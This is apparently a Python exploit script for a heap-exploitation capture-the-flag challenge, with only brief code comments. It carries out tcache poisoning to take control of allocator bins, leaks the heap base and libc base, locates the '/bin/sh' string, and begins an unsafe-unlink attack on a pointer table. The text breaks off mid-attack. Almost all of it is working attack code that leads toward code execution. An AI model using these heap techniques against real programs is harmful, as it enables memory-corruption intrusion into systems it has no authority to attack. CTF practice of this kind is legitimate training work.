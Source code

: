 ```py
add(4, b'a' * 32)
delete(4)
data = show(4)[1:]
leak_addr_1 = u64_(encrypt(data[:16])[-8:])      # the original data got decrypted in program, here you need to encrypt it at first
heap_base = leak_addr_1 - 0x10
print(f'heap_base:        { hex(heap_base) }')

# control the bin head and bin size
add(14, b'nothing')
add(15, b'nothing')
delete(14)
delete(15)
edit(15, p64(heap_base + 0xa0)[:7])
add(14, b'nothing')
add(15, b'nothing')
delete(14)

def modify_bin_addr(address: int) -> None:
	edit(15, p64(address)[:7])

modify_bin_addr(heap_base + 0x10)
add(14, b'nothing')

def modify_bin_size(size: int) -> None:
	edit(14, p32(0) + p32(size))

def modify_addr_value(addr: int, value: bytes) -> None:
	modify_bin_addr(addr)
	modify_bin_size(3)
	add(13, value)

modify_bin_size(0)

add(7, b'a' * 32)
p7_chunk = heap_base + 0x3b0

# alloc num of 0x20 chunk as padding of 0x500 unsorted bin
for i in range(0, 0x20):
	add(8, p64(0x123456))

modify_addr_value(p7_chunk + 0x8, p64(0x501))
delete(7)

data = show(7)[1:]
leak_addr = u64_(encrypt(data[:16])[-8:])
libc_base = leak_addr - 0x1ecbe0
binsh = libc_base + 0x1b45bd
print(f'libc_base:        { hex(libc_base) }')
libc.address = libc_base

modify_bin_size(0)

# unsafe unlink start --------
add(8, decrypt(b'nothings' * 2))
p8_chunk = heap_base + 0x3b0
add(9, decrypt(b'nothings' * 2))
p9_chunk = heap_base + 0x3f0
p8_pointer = BookList_addr + 0x8 * 8

edit(8, decrypt(p64(0) + p64(0x31) + p64(p8_pointer - 0x18) + p64(p8_pointer - 0x10)) )

modify_addr_value(p9_chunk, p64(0x30))
```
